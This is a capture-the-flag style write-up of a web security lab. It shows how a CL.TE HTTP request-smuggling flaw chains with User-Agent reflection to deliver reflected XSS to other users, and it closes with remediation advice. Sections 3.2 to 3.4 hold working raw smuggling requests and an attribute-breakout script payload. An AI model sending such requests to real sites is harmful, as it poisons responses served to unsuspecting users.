







## Challenge Overview
* **Challenge name**: Exploiting HTTP request smuggling to deliver reflected XSS
* **Category**: HTTP Request Smuggling
* **Level**: Practitioner
* **Objective**: Smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.

---

## 1. Fundamental Concepts

Cross-Site Scripting (XSS) and HTTP Request Smuggling operate at completely different layers of the modern web stack. When chained together, however, transport-layer request desynchronization fundamentally elevates the severity of Reflected XSS from a benign, often unexploitable condition into an unsolicited, zero-click attack against third-party users.

### 1.1. Weaponizing 'Unexploitable' Header-Based Reflected XSS
* **The Social Engineering Constraint:** Traditional Reflected XSS requires the malicious payload to be delivered via user-controllable request inputs, such as URL query parameters or POST form bodies. An attacker must induce the victim to click a specially crafted hyperlink or visit a malicious third-party site hosting an auto-submitting form.
* **The Self-XSS Dilemma:** When an application reflects headers such as `User-Agent`, `Referer`, or `Cookie` into HTML without sanitization, the vulnerability is classically classified as "Self-XSS". Standard web browsers enforce strict security controls preventing cross-origin web pages from altering forbidden HTTP headers on outbound requests. Consequently, an external attacker cannot force a victim's browser to dispatch a weaponized `User-Agent` header.
* **The Smuggling Transformation:** By leveraging HTTP Request Smuggling, the attacker transmits the malicious `User-Agent` header directly to the back-end over a multiplexed TCP pipeline. The back-end renders the malicious HTML response, but the front-end reverse proxy routes that poisoned response directly to the victim's connection, achieving execution without requiring victim interaction.

### 1.2. The Mechanics of CL.TE Desynchronization
* **Protocol Discrepancy:** Under HTTP/1.1 (RFC 7230), message body boundaries are defined by `Content-Length` (fixed byte count) or `Transfer-Encoding: chunked` (variable-sized chunks terminated by `0\r\n\r\n`).
* **Desynchronization Model:** In a CL.TE vulnerability, the Front-end proxy evaluates requests according to `Content-Length`, while the Back-end application server prioritizes `Transfer-Encoding: chunked`. A terminating chunk (`0\r\n\r\n`) causes the back-end to conclude Request 1 early, leaving the smuggled request prefix in the TCP receive buffer to be prefixed to the next arriving request.

> [!IMPORTANT]
> **Superiority of Smuggling-Delivered XSS:** Traditional Reflected XSS demands user interaction (clicking a phishing link) and cannot touch forbidden headers. Smuggling-delivered XSS requires zero user interaction—victims merely browse the legitimate website normally—and can exploit header-based reflection vectors that are otherwise impossible to weaponize.

---

## 2. Attack Model & Architecture

The attack model illustrates how a smuggled GET request carrying an XSS payload in its `User-Agent` header intercepts a subsequent user's transaction and poisons their rendered HTML response.

```text
[Attacker]
    │
    │ 1. Sends CL.TE Smuggling Probe
    │    Outer: POST / HTTP/1.1 (Content-Length: 84, Transfer-Encoding: chunked)
    │    Smuggled: GET /post?postId=6 HTTP/1.1
    │    User-Agent: "><script>alert(1)</script>
    │    Trailing Header: abc: tuki
    ▼
[Front-end Proxy] (Prioritizes Content-Length: 84)
    │ Forwards entire byte stream over persistent TCP connection to Back-end
    ▼
[Back-end Server] (Prioritizes Transfer-Encoding: chunked)
    │ Reads chunk '0\r\n\r\n' -> Finishes Request 1 (Returns 200 OK to Attacker)
    │ Smuggled 'GET /post?postId=6' remains queued in TCP socket buffer
    ▼
[Victim User Browses the Website]
    │ Victim dispatches normal request over the shared connection:
    │   GET / HTTP/1.1
    │   Host: vulnerable-website.net
    ▼
[Back-end Merges Queued Prefix with Victim Request]
    │ Victim's request line 'GET / HTTP/1.1' is absorbed as the value of 'abc: tuki'
    │ Back-end executes: GET /post?postId=6 with User-Agent: "><script>alert(1)</script>
    │ Back-end renders Post #6 HTML, reflecting the malicious User-Agent into DOM:
    │   <input type="hidden" name="userAgent" value=""><script>alert(1)</script>">
    ▼
[Front-end Returns Poisoned Response to Victim Browser]
    │ Victim's browser parses HTML DOM -> Executes <script>alert(1)</script>!
    │ (Zero-Click Exploitation Completed)
```

### 2.1. Attack Data Flow & Lifecycle
1. **Step 1 - Reflection Primitive Identification:** Inspection of `GET /post?postId=6` reveals that the incoming `User-Agent` header is reflected unencoded within the comment form: `<input type="hidden" name="userAgent" value="[User-Agent]">`.
2. **Step 2 - Desynchronization Verification:** Using a differential response probe (smuggling `'A'` to create `APOST /`), the application is confirmed vulnerable to CL.TE desynchronization.
3. **Step 3 - Method Routing Constraints:** An initial attempt smuggling `POST /post?postId=6` is rejected with `HTTP 405 Method Not Allowed` (`Allow: GET`), demonstrating that the endpoint strictly enforces GET routing.
4. **Step 4 - Payload Construction & Priming:** The smuggled request is corrected to `GET /post?postId=6` with `User-Agent: "><script>alert(1)</script>` and an open trailing header `abc: tuki`.
5. **Step 5 - Transport-Layer Merging:** When a subsequent request arrives, the back-end prepends the smuggled request, absorbs the incoming request line into `abc: tuki`, and executes the GET request.
6. **Step 6 - Execution & Impact:** The back-end generates the HTML response for Post 6 containing the unescaped script tag. The front-end forwards this response to the victim browser, executing `alert(1)`.

### 2.2. Method Selection: Why GET is Mandatory
* **Application Routing Enforcement:** The blog viewer endpoint (`/post`) only implements a GET handler. Submitting POST returns an `HTTP 405 Method Not Allowed` error, aborting HTML rendering and preventing reflection.
* **HTTP Parser Protocol Mechanics:** A GET request requires no body. When the victim's request line and headers are appended to `abc: tuki`, the headers conclude with `\r\n\r\n`, immediately completing the request without requiring body length calculations.

### 2.3. Root Causes
* **Framing Asymmetry:** Front-end and back-end disagree on request framing boundaries under RFC 7230 Section 3.3.3.
* **Unsanitized Header Reflection:** The application reflects client-supplied HTTP headers into server-side HTML templates without contextual encoding or sanitization.
* **Insecure Connection Multiplexing:** Reverse proxies multiplex requests from distinct, untrusted client sessions across the same persistent backend TCP connection pool.

---

## 3. Vulnerability Exploitation

The vulnerability was empirically verified, adjusted, and exploited through a structured multi-stage process utilizing Burp Suite Repeater.

### 3.1. Identifying the Header Reflection Gadget
A baseline request to view Post 6 was captured in Burp Suite Repeater (`GET /post?postId=6 HTTP/2`). Inspection of the HTML response revealed that the incoming `User-Agent` header was reflected unencoded within a hidden input field of the comment submission form:

```html
<input required type="hidden" name="csrf" value="sD6cMPyr5ZQNyXCC9f078C56vdGc6ZrY">
<input required type="hidden" name="userAgent" value="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/154.0.0.0 Safari/537.36">
<input required type="hidden" name="postId" value="6">
```

Because the `value` attribute is delimited by double quotes, injecting `"><script>alert(1)</script>` would break out of the tag and inject an executable JavaScript element into the DOM.



### 3.2. Probing & Confirming CL.TE Desynchronization
The protocol in Burp Repeater was downgraded to HTTP/1.1 and **Update Content-Length** was unchecked. A differential response probe was transmitted with `Content-Length: 6` and `Transfer-Encoding: chunked`, appending a single `'A'` character after the terminating chunk:

```http
POST / HTTP/1.1\r\n
Host: 0a8800a104a2f2c780007b7f0078005d.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
A
```

Dispatching an immediate follow-up request returned an `HTTP/1.1 404 Not Found` response with body `"Not Found"`. The smuggled `'A'` byte prepended to the incoming request line to form `APOST /`, decisively confirming CL.TE desynchronization.



### 3.3. Initial Smuggling Attempt & Method Rejection (HTTP 405)
An initial exploit payload was constructed attempting to smuggle a `POST` request to `/post?postId=6` with the XSS payload in the `User-Agent` header (`Content-Length: 85`):

```http
POST / HTTP/1.1\r\n
Host: 0a8800a104a2f2c780007b7f0078005d.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 85\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
POST /post?postId=6 HTTP/1.1\r\n
User-Agent: "><script>alert(1)</script>\r\n
abc: tuki
```

The initial transmission completed normally with an `HTTP/1.1 200 OK` response:



Upon dispatching the follow-up request, the back-end executed the smuggled POST request and immediately returned an `HTTP/1.1 405 Method Not Allowed` error, explicitly declaring `Allow: GET`:



Because the application returned a JSON error response rather than rendering the blog view, the User-Agent was not reflected, confirming that the exploit must use the `GET` method.

### 3.4. Correcting to GET & Priming the Weaponized Payload
The smuggled request method was changed to `GET`, and `Content-Length` was adjusted to 84 bytes:

```http
POST / HTTP/1.1\r\n
Host: 0a8800a104a2f2c780007b7f0078005d.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 84\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /post?postId=6 HTTP/1.1\r\n
User-Agent: "><script>alert(1)</script>\r\n
abc: tuki
```

The payload was transmitted to prime the back-end socket buffer, returning an `HTTP/1.1 200 OK` response for the outer request:



### 3.5. Verifying XSS Injection & Execution
Transmitting the subsequent request triggered the execution of the queued `GET /post?postId=6` request. The back-end merged the subsequent request into `abc: tuki` and rendered the HTML DOM:

```html
<input required type="hidden" name="userAgent" value="">
<script>
alert(1)
</script>
">
```

The payload cleanly broke out of the `value` attribute, injecting an unescaped `<script>` element into the HTML markup.



When the simulated victim bot browsed the site, its request was attached to the primed socket. The victim's browser rendered the poisoned response and executed `alert(1)`, solving the lab:



---

## 4. Remediation & Prevention

Mitigating request smuggling-delivered XSS attacks requires synchronized defenses spanning the network proxy layer and application rendering pipelines.

### 4.1. End-to-End HTTP/2 Architecture
* **Unified Binary Framing:** Deploy HTTP/2 or HTTP/3 consistently across the entire request architecture—from clients to edge proxies and through to internal application servers. Binary framing establishes unambiguous frame lengths at the transport layer, eliminating delimiter ambiguities.
* **Disable Protocol Downgrading:** Avoid protocol downgrading at reverse proxies. Converting inbound HTTP/2 frames into HTTP/1.1 cleartext streams when communicating with upstream servers creates message framing discrepancies that enable request smuggling.

### 4.2. Reverse Proxy Hardening & Connection Pool Isolation
* **Ambiguous Framing Rejection:** Configure reverse proxies (e.g., Nginx, HAProxy, Envoy) to reject any request containing both `Content-Length` and `Transfer-Encoding` headers with an immediate `HTTP 400 Bad Request`.
* **Isolate Upstream Connection Pools:** Never reuse backend TCP connections across distinct client IP addresses or authentication boundaries. Disabling persistent connection multiplexing prevents smuggled state from affecting third-party requests.

### 4.3. Application-Tier Contextual Output Encoding
* **Contextual HTML Output Encoding:** Always apply context-aware HTML entity encoding to all dynamic data rendered in HTML templates—including HTTP headers such as `User-Agent` and `Referer`. Characters like quotes (`"`, `'`), brackets (`<`, `>`), and ampersands (`&`) must be encoded (`&quot;`, `&#39;`, `&lt;`, `&gt;`, `&amp;`) to prevent attribute breakouts.
* **Content Security Policy (CSP):** Implement a robust Content Security Policy with strict `object-src` and `script-src` directives (utilizing cryptographic nonces or hashes). A strong CSP prevents injected `<script>` elements from executing even if an attribute breakout occurs.
